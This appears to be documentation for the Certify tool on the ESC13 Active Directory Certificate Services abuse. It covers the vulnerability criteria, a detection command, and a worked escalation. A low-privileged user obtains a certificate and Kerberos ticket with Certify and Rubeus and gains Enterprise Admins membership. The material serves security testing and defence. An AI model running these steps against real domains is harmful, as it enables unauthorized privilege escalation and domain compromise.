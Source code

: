 ```yaml
---
title: 'ESC13 - Authentication Mechanism Assurance (AMA)'
description: 'Exploit certificate templates with issuance policies linked to domain groups to gain temporary group membership'
icon: 'users'
sidebarTitle: 'ESC13'
---
```


ESC13 is a misconfiguration in Active Directory Certificate Services (AD CS), which stems from overly permissive enroll rights on special administrative certificate templates. Specifically, if a certificate template has been configured with an *Issuance Policy* that links to a domain group, then anyone who authenticates with a certificate issued from this template, will gain temporary membership into the linked domain group.

<Info>
This is defined as [Authentication Mechanism Assurance (AMA)](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd378897(v=ws.10)?redirectedfrom=MSDN) by Microsoft.
</Info>

## Background

This configuration was first discovered by Adam Burford, and later tagged `ESC13` by [Jonas Bülow Knudsen](https://medium.com/@jonasblowknudsen) in [this blogpost](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53).

## Vulnerability Criteria

According to the research, the following criteria comprise an ESC13 vulnerability:

<Accordion title="ESC13 Requirements">
- The enterprise CA grants enrollment rights to the attacker-controlled user.
  - Otherwise, the user would be unable to request any certificates from the CA.
- The certificate template grants enrollment rights to the attacker-controlled user.
  - Otherwise, the user would be unable to request certificates based on the specific template.
- The "manager approval" feature is disabled for the certificate template.
  - Otherwise, a "CA Manager" would have to manually review and approve the certificate request.
- The "authorized signature" feature is disabled for the certificate template.
  - Otherwise, an enrollment agent would need to sign the certificate request on behalf of the requester.
- The certificate template defines an Extended Key Usage (EKU) that enables client authentication.
  - `Client Authentication` (`1.3.6.1.5.5.7.3.2`)
  - `PKINIT Client Authentication` (`1.3.6.1.5.2.3.4`)
  - `Smart Card Logon` (`1.3.6.1.4.1.311.20.2.2`)
  - `Any Purpose` (`2.5.29.37.0`)
  - `Subordinate CA` (No EKUs)
- The certificate template contains an issuance policy that links to an empty universal domain group.
  - Otherwise, we do not gain membership into the domain group when authenticating with the certificate.
</Accordion>

## Detection

We can search for certificate templates with these conditions using the `enum-templates --filter-vulnerable` command from Certify. For more information about the command and its parameters, please refer to the [Command Overview](./1-command-overview) page.

<CodeGroup>
```bash Command
Certify.exe enum-templates --filter-enabled --filter-vulnerable --hide-admins
```

```diff Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=corp,DC=local'
[*] Classifying vulnerabilities in the context of built-in low-privileged domain groups.

[*] Listing info about the enterprise certificate authority 'CORP-CA01-CA'

    ...

[*] Certificate templates found using the current filter parameters:

    Template Name                         : TemporaryAdmin
    Enabled                               : True
    Publishing CAs                        : ca01.corp.local\CORP-CA01-CA
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
+   Manager Approval Required             : False
+   Authorized Signatures Required        : 0
+   Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : Client Authentication, Encrypting File System, Secure Email
+   Certificate Issuance Policies         : Temporary Admin Issuance (linked to group 'CN=TemporaryAdmins,OU=Groups,OU=Corp,DC=corp,DC=local')
    Vulnerabilities
+     ESC13                               : The template has client authentication and an issuance policy linked to one or more domain group(s).
    Permissions
      Enrollment Permissions
+       Enrollment Rights           : CORP\Domain Users               S-1-5-21-976219687-1556195986-4104514715-513
      Object Control Permissions

Certify completed in 00:00:00.6795818
```
</CodeGroup>

## Exploitation

Once we have identified a vulnerable certificate template that our attacker-controlled user can enroll in, we can evaluate if the issuance policy links to a group that is worth compromising. This includes checking what the group is a member of, and what access control permissions the group has across the environment.

<CodeGroup>
```powershell Evaluate Target Group
Get-ADGroup TemporaryAdmins -Properties MemberOf,Members
```

```bash Output
DistinguishedName : CN=TemporaryAdmins,OU=Groups,OU=Corp,DC=corp,DC=local
GroupCategory     : Security
GroupScope        : Universal
MemberOf          : {CN=Enterprise Admins,CN=Users,DC=corp,DC=local}
Members           : {}
Name              : TemporaryAdmins
ObjectClass       : group
ObjectGUID        : 96a21f6c-8b35-4654-bc7d-4b9b7a40fbdd
SamAccountName    : TemporaryAdmins
SID               : S-1-5-21-976219687-1556195986-4104514715-1102
```
</CodeGroup>

<Info>
Since the `TemporaryAdmins` group is a member of the `Enterprise Admins` group, we deem that it is worth compromising, so we request a certificate from the template using the `request` command from Certify.
</Info>

<CodeGroup>
```bash Request Certificate
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template TemporaryAdmin
```

```bash Output
   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v2.0.0

[*] Action: Request a certificate

[*] Current user context    : CORP\lowpriv
[*] No subject name specified, using current context as subject.

[*] Template                : TemporaryAdmin
[*] Subject                 : CN=lowpriv, OU=Users, OU=Corp, DC=corp, DC=local

[*] Certificate Authority   : ca01.corp.local\CORP-CA01-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 1

[*] Certificate (PFX)       :

MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh...

Certify completed in 00:00:03.8732299
```
</CodeGroup>

Once the certificate has been issued, we simply pass it to [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) with the `asktgt` command using our low-privileged user.

<CodeGroup>
```bash Authenticate with Certificate
Rubeus.exe asktgt /user:lowpriv /certificate:MIACAQMwgAYJKoZIhvcNAQcBoIAkgASCA+gwgDCABgkqh... /ptt
```

```bash Output
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject:
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\lowpriv'
[*] Using domain controller: 10.10.10.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGcjCCBm6gAwIBBaEDAgEWooIFfzCCBXthggV3MIIFc6ADAgEFoQ8bDU1FR0FLRUsuTE9DQUyiIjAg
      ...
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  lowpriv
  UserRealm                :  CORP.LOCAL
  StartTime                :  02/07/2025 11.07.37
  EndTime                  :  02/07/2025 21.07.37
  RenewTill                :  09/07/2025 11.07.37
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  fsIjncNqfhwgn2G5ixAolw==
  ASREP (key)              :  67CA9CAE3051A4E05EB9CA2B9ED9309C
```
</CodeGroup>

Since the `/ptt` parameter was supplied to [Rubeus](/ghostpack-docs/Rubeus-mdx/overview) when requesting the TGT, we should now have a ticket in our Kerberos ticket list that contains `Enterprise Admins` membership. We can verify this by attempting to execute `whoami /all` on a domain controller.

<CodeGroup>
```powershell Verify Group Membership
Invoke-Command -ComputerName DC01 -ScriptBlock { whoami /all }
```

```bash Output
USER INFORMATION
----------------

User Name    SID
============ =============================================
corp\lowpriv S-1-5-21-976219687-1556195986-4104514715-1100


GROUP INFORMATION
-----------------

Group Name                Type   SID                                           Attributes
========================= ====== ============================================= ==================================================
...
CORP\TemporaryAdmins      Group  S-1-5-21-976219687-1556195986-4104514715-1102 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins    Group  S-1-5-21-976219687-1556195986-4104514715-519  Mandatory group, Enabled by default, Enabled group
...
```
</CodeGroup>